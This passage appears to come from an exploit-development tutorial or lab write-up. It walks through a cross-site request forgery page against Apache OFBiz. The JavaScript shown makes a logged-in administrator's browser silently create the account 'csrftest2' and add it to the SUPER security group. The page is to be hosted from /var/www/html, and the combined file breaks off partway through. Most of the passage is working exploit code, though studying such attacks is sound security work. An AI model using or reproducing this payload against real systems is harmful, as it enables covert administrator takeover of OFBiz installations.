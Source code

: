 Our file starts by declaring several variables within the script block. Using variables in this way allows the exploit to be more modular and easier to update.

Next, we'll create two functions within the script tags. The first function will send the request to create a new user. The second function will send the request to add the new user to the SUPER security group. Finally, we'll explicitly call our first function at the end of the script block so that a browser will execute our code when it loads the page.

*JavaScript functions to create a new user and add that user to SUPER group*
```js
function send_create() { 
  console.log("Creating user..."); 
  fetch(host+create_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body : create_params }
  ).then(function(response) {
    send_admin();
  }); 
}

function send_admin() { 
  console.log("Adding admin role..."); 
  fetch(host+admin_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded' 
    },
    body : admin_params }
  ).then(
    console.log("Should be done...") 
  );
}

send_create();
</script>
```
Script Combined into `ofbiz2.html` and saved into `/var/www/html/`
```js
<html>
<head>
<script>
  // Define variables
  var username = "csrftest2";
  var password = "password";
  var host = "https://ofbiz:8443";
  var create_url = "/webtools/control/createUserLogin";
  var admin_url = "/webtools/control/userLogin_addUserLoginToSecurityGroup";
  var create_params = "enabled=&partyId=&userLoginId=" + username + "&currentPassword=" + password + "&currentPasswordVerify=" + password + "&passwordHint=hint&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=";
  var admin_params = "userLoginId=" + username + "&partyId=&groupId=SUPER&fromDate_i18n=&fromDate=&thruDate_i18n=&thruDate=";

  // Function to create user
  function send_create() { 
    console.log("Creating user..."); 
    fetch(host + create_url, {
      method: 'POST',
```